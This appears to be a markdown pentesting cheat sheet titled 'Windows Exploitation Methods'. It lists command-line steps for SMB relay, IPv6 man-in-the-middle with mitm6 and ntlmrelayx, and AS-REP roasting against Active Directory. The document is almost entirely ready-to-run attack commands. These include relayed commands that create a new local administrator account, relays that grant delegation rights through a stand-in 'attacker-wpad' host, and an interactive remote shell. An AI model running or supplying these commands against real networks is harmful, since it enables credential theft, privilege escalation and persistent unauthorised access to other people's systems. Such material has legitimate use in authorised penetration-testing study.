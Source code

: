 # Windows Exploitation Methods

## MITM

## SMB Relay

1. First disable SMB and HTTP in `/etc/responder/responder.conf`

2. Collect targets with signing disabled

    ```
    $ crackmapexec smb <CIDR> --gen-relay-list targets.txt
    ```

3. Run responder

    ```
    $ responder.py -I <interface> -r -d -w
    ```

4. Run ntlmrelay.py

    ```
    $ ntlmrelayx.py -tf targets.txt -c "net user user password /add && net localgroup Administrators user /add"
    ```

## IPv6

### run [mitm6](https://github.com/fox-it/mitm6) for ipv6
```
mitm6 -i eth0 -d example.local
```

### run [ntlmrelay](https://github.com/SecureAuthCorp/impacket) to execute a command

Use impacket's `ntlmrelay.py` for various attacks

```
# run a command
$ ntlmrelayx.py -ip 0.0.0.0 -t rpc://example.local -c "net user user password /add && net localgroup Administrators user /add"
# add computer and delegate access
$ ntlmrelayx.py -t ldaps://icorp-dc.internal.corp -wh attacker-wpad --delegate-access
# interactive shell
$ ntlmrelayx.py -wh attacker-wpad -t smb://example.local/ -i
```

## ASREPROAST

Get usernames

```
$ comb -s="." /opt/Spray/name-lists/english-first-1000.txt /opt/Spray/name-lists/english-last-1000.txt | tee usernames.txt
```

Run kerbrute

```
$ kerbrute userenum -d example.local usernames.txt -o kerbrute-out.log
```

Run ASREPROAST attack

```
GetNPUsers.py example.local/ -usersfile kerbrute-usernames.txt -dc-ip 192.168.1.10
```